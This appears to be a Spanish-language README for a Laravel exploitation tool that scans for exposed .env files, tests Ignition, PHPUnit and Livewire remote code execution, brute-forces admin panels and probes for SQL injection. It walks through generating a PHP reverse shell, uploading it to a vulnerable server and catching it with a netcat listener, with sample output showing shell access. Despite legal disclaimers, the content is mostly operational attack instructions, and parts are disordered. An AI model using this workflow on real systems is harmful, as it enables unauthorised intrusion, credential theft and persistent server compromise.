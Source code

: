*⚠️ Advertencia legal — LEEA ANTES DE SU USO*

**Advertencia legal: El software entregado por Nezuko y Daniel se proporciona tal cual y sin garantías de ningún tipo, explícitas o implícitas. Ni Nezuko ni Daniel serán responsables, en la máxima medida permitida por la ley aplicable, de cualquier daño directo, indirecto, incidental, consecuente o punitivo que resulte del uso, mal uso, incapacidad para usar o la imposibilidad de usar este material.**

*Este contenido no constituye asesoramiento profesional. El usuario final asume toda responsabilidad por la utilización que haga del mismo. Para usos que impliquen riesgos legales, de seguridad o comerciales, se recomienda consultar a un profesional cualificado.*


**AL UTILIZAR ESTE SOFTWARE, USTED ACEPTA ESTOS TÉRMINOS Y RECONOCE QUE EL USO INADECUADO PUEDE ACARREAR CONSECUENCIAS LEGALES.**


### Prohibiciones Expresas
**QUEDA ESTRICTAMENTE PROHIBIDO:**
- Utilizar esta herramienta en sistemas sin autorización explícita
- Realizar actividades ilegales o no éticas
- Comprometer la seguridad de terceros sin consentimiento
- Violar leyes locales, nacionales o internacionales



```ascii
██████╗  █████╗ ███╗   ██╗██╗███████╗██╗         ██████╗  █████╗ ███╗   ███╗██╗██████╗ ███████╗███████╗
██╔══██╗██╔══██╗████╗  ██║██║██╔════╝██║         ██╔══██╗██╔══██╗████╗ ████║██║██╔══██╗██╔════╝╚══███╔╝
██║  ██║███████║██╔██╗ ██║██║█████╗  ██║         ██████╔╝███████║██╔████╔██║██║██████╔╝█████╗    ███╔╝ 
██║  ██║██╔══██║██║╚██╗██║██║██╔══╝  ██║         ██╔══██╗██╔══██║██║╚██╔╝██║██║██╔══██╗██╔══╝   ███╔╝  
██████╔╝██║  ██║██║ ╚████║██║███████╗███████╗    ██║  ██║██║  ██║██║ ╚═╝ ██║██║██║  ██║███████╗███████╗
╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝╚══════╝╚══════╝    ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝╚═╝╚═╝  ╚═╝╚══════╝╚══════╝
```

<div align="center">
  
[![Matrix SVG](https://raw.githubusercontent.com/rodrigograca31/rodrigograca31/master/matrix.svg)](https://github.com/ELDANI1)

</div>

# Laravel Security Testing Tool

Herramienta de seguridad para pruebas de penetración en aplicaciones Laravel.

## ⚠️ ADVERTENCIA LEGAL

**ESTA HERRAMIENTA ES SOLO PARA:**

- Pruebas de penetración autorizadas
- Auditorías de seguridad en sistemas propios
- Entornos de testing controlados
- Educación e investigación en seguridad

**NO UTILICES ESTA HERRAMIENTA EN SISTEMAS SIN AUTORIZACIÓN EXPLÍCITA.**

## 🚀 Características

- Detección de archivos .env expuestos
- Prueba de vulnerabilidades Laravel Ignition (CVE-2021-3129)
- Detección de PHPUnit RCE
- Prueba de Livewire RCE
- Fuerza bruta en paneles de administración
- Escaneo de inyecciones SQL
- Búsqueda de archivos sensibles
- Prueba de conexión MySQL
- Generación de reverse shell

## 📦 Instalación

### Requisitos

```bash
# Python 3.6+
python3 --version

# Dependencias
pip3 install requests

# Herramientas opcionales (recomendadas)
sudo apt install mysql-client sqlmap


# Clonar el repositorio
git clone https://github.com/ELDANI1/SCRIPS-DE-PRUEBA
cd SCRIP DE PRUEBA
LUEGO LS PARA SABER DONDE QUEDO EL ARCHIVO , Y ASI PODER VER SI FUE O NO CLONADO 

# Hacer ejecutable
chmod +x laravel_exploiter.py

# Ejecutar directamente
./laravel_exploiter.py

#Escaneo básico

python3 laravel_exploiter.py ejemplo.com

#Escaneo con credenciales de base de datos

python3 laravel_exploiter.py ejemplo.com --db-user admin --db-pass password --db-name laravel_db

#Generar reverse shell

python3 laravel_exploiter.py ejemplo.com --shell

·Todos los parámetros
bash
python3 laravel_exploiter.py https://ejemplo.com \
# --app-key "base64-app-key" \
# --db-user "usuario_db" \
# --db-pass "password_db" \
# --db-name "nombre_db"

Exposición de .env - Verifica si el archivo de configuración está accesible

Laravel Ignition RCE - Prueba CVE-2021-3129

PHPUnit RCE - Detecta eval-stdin.php expuesto

Livewire RCE - Prueba vulnerabilidades en Livewire

Fuerza bruta - Paneles de administración comunes

SQL Injection - Parámetros comunes y payloads básicos

Archivos sensibles - Lista de archivos comunes expuestos

Conexión MySQL - Solo si se proporcionan credenciales

# EJEMPLO DE SALIDA 
🚀 LARAVEL EXPLOITATION TOOL
⚠️  SOLO PARA PRUEBAS ÉTICAS EN SISTEMAS AUTORIZADOS

[*] INICIANDO EXPLOTACIÓN COMPLETA PARA: https://ejemplo.com
============================================================
[*] Verificando exposición de .env...
[+] .env EXPUESTO - Credenciales disponibles
[*] Probando Laravel Ignition RCE (CVE-2021-3129)...
[-] Error en Ignition RCE: timeout
...
[+] RESUMEN DE EXPLOTACIÓN:
[+] ENV_EXPOSED: VULNERABLE
[-] IGNITION_RCE: No vulnerable
...


🤝 Contribuciones
Las contribuciones son bienvenidas. Por favor:

# 1. Generar el shell
python3 laravel_exploiter.py ejemplo.com --shell

# El script preguntará:
# Tu IP para reverse shell: [INGRESA_TU_IP_AQUI]
# Puerto [4444]: [ENTER o ingresa otro puerto]

# 2. Poner tu máquina en escucha (en otra terminal)
nc -lvnp 4444

# 3. Subir el archivo shell.php al servidor vulnerable
# (usando alguna vulnerabilidad encontrada)

# 4. Acceder a la shell subida via navegador o curl
# http://ejemplo.com/shell.php 


## SOLO SI Encuentras que el objetivo tiene .env expuesto

#Descubres credenciales válidas en el panel de admin

#Encuentras un RCE funcionando (Ignition, PHPUnit, etc.)

#Subes el shell.php al servidor

#Accedes via navegador a http://ejemplo.com/shell.php

#Obtienes una shell en tu terminal con Netcat   


#EJEMPLO DE REVERSHELL 
# Terminal 1 - Generar shell
$ python3 laravel_exploiter.py mi-sitio.com --shell
Tu IP para reverse shell: 192.168.1.100
Puerto [4444]: 9999
[+] Reverse shell generado: shell.php
[*] Ejecuta: nc -lvnp 9999 antes de subir el shell

# Terminal 2 - Escuchar conexión
$ nc -lvnp 9999
listening on [any] 9999 ...

# Subir shell.php al servidor (usando vulnerabilidad encontrada)
# Luego acceder via: http://mi-sitio.com/uploads/shell.php

# Cuando se ejecute el shell, verás en Terminal 2:
connect to [192.168.1.100] from (UNKNOWN) [mi-sitio.com] 54322
whoami
www-data
pwd
/var/www/html


Consideraciones importantes:
Firewalls: El servidor podría tener firewalls que bloqueen conexiones salientes

Filtrado: El servidor podría filtrar/borrar archivos .php

Detección: Antivirus/WAF podrían detectar el shell

Permisos: Necesitas permisos de escritura en algún directorio web

# NFO SI PARA QUE NO FALLE KALI 
# Actualizar Kali
sudo apt update

# Instalar dependencias
sudo apt install -y python3 python3-pip mysql-client sqlmap

# Clonar el repositorio
git clone https://github.com/ELDANI1/SCRIPS-DE-PRUEBA
cd laravel-security-tool

# Instalar dependencias de Python
pip3 install requests

# Ejecutar
python3 laravel_exploiter.py ejemplo.com

